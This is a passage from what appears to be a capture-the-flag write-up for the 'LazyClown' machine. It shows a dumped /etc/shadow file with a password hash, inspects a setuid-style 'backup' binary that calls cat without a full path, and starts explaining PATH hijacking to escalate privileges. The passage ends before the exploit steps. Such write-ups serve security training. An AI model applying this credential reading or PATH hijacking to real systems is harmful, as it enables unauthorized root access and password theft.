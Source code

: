```bash
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```

Hmm? It looks like it’s trying to print `/etc/shadow`. Let’s check what is the program doing using `strings`.

```bash
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4
...
```

Oh! It’s trying to do `cat /etc/shadow`. Let’s check where is the `cat` command located at.

```bash
mitsos@LazyClown:~$ which cat
/bin/cat
```

The vulnerability here is that the `cat` command is called without it’s full path. Therefore, we can trick the system into calling our own version of `cat`! OwO

Firstly, let’s add `/tmp` to the `$PATH` environment so that it will be the first directory to be checked.
